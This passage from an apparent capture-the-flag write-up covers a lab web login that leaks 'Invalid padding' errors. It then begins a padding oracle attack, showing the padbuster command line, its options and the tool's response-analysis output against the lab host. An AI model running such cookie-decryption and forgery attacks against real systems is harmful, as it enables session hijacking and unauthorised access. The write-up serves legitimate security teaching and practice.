 Visiting `/login.php?err=1` includes an error message at the top of the page (actually before the opening `<html>` tag):

```

HTTP/1.1 200 OK
Date: Mon, 27 Sep 2021 20:57:35 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2102
Connection: close
Content-Type: text/html; charset=UTF-8

<span class=error>Unable to Verify cookie! Invalid padding. Please login Again</span><html>
    <title>Overflow Sec
...[snip]...

```

It shows up on the top of the page:

![image-20210927165941658](https://0xdfimages.gitlab.io/img/image-20210927165941658.png)

I tried some other numbers for `err`, but only `1` seems to exist.

“Invalid padding” is really interesting.

#### Padding Oracle Attack

When there’s some encrypted object that leaks information about if the padding is good or not, I can attack that with a Padding Oracle Attack. I went into detail on how this attack works in the [Lazy](/2020/07/29/htb-lazy.html#path-1-padding-oracle-attack) writeup, so check out that for a full background. The really short version is that because it tells me when the padding is bad, I can brute force across the bytes of the cookie to read the decrypted plaintext, as well as create a cookie with different plaintext.

I’ll use `padbuster`(comes installed on Parrot and I believe Kali) to automate this. I’ll give it the following options:
- The URL to target - `http://10.10.11.119/home/index.php`
- A valid cookie for the “EncryptedSample” - `k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU`
- The block size is typically 8 or 16; 16 errors out immediately, but 8 doesn’t
- `-cookie auth=k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU` - tells it to pass the encrypted item as a cookie

When I give it those options, it starts by running what it calls a response analysis. This is it will try 256 different bytes at one spot in the cookie, and report what the responses look like:

```

oxdf@hacky$ padbuster http://10.10.11.119/ k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU 8 -cookie auth=k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 16378

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis
*** Response Analysis Complete ***

```